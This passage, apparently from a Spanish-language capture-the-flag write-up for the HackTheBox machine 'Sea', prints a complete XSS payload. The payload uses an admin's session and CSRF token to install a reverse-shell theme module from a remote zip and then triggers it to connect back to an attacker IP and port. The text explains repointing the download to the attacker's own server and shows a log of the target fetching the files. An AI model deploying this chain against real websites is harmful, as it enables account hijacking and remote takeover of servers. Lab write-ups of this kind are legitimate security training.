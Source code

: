 ```js
var url = "http://sea.htb/loginURL";
if (url.endsWith("/")) {
 url = url.slice(0, -1);
}
var urlWithoutLog = url.split("/").slice(0, -1).join("/");
var urlWithoutLogBase = new URL(urlWithoutLog).pathname; 
var token = document.querySelectorAll('[name="token"]')[0].value;
var urlRev = urlWithoutLogBase+"/?installModule=https://github.com/prodigiousMind/revshell/archive/refs/heads/main.zip&directoryName=violet&type=themes&token=" + token;
var xhr3 = new XMLHttpRequest();
xhr3.withCredentials = true;
xhr3.open("GET", urlRev);
xhr3.send();
xhr3.onload = function() {
 if (xhr3.status == 200) {
   var xhr4 = new XMLHttpRequest();
   xhr4.withCredentials = true;
   xhr4.open("GET", urlWithoutLogBase+"/themes/revshell-main/rev.php");
   xhr4.send();
   xhr4.onload = function() {
     if (xhr4.status == 200) {
       var ip = "10.10.14.78";
       var port = "443";
       var xhr5 = new XMLHttpRequest();
       xhr5.withCredentials = true;
       xhr5.open("GET", urlWithoutLogBase+"/themes/revshell-main/rev.php?lhost=" + ip + "&lport=" + port);
       xhr5.send();
       
     }
   };
 }
};
```
{: file="xss.js" }

Si lees el código del script, notarás que hay una línea que apunta a un archivo hospedado en GitHub, pero como las máquinas de HackTheBox no tienen acceso a internet tendremos que descargarnos ese archivo y cambiar el enlace a nuestro servidor (`http://<ip>:<port>/main.zip`), además de que tendremos que arreglar otras cosas como asignarle a la variable `urlWithoutLogBase` el mismo valor de `urlLogBase`, ya que de lo contrario, no funcionará.

Ahora, si colocamos el enlace que nos ha generado, dentro del campo de `Website` en `contact.php` que vimos antes suponiendo que alguien le va a dar click, eventualmente veremos esto en el servidor http

```bash
10.10.11.28 - - [21/Dec/2024 10:04:42] "GET /xss.js HTTP/1.1" 200 -
10.10.11.28 - - [21/Dec/2024 10:04:52] "GET /main.zip HTTP/1.1" 200 -
10.10.11.28 - - [21/Dec/2024 10:04:53] "GET /main.zip HTTP/1.1" 200 -
10.10.11.28 - - [21/Dec/2024 10:04:53] "GET /main.zip HTTP/1.1" 200 -
10.10.11.28 - - [21/Dec/2024 10:04:53] "GET /main.zip HTTP/1.1" 200 -
```
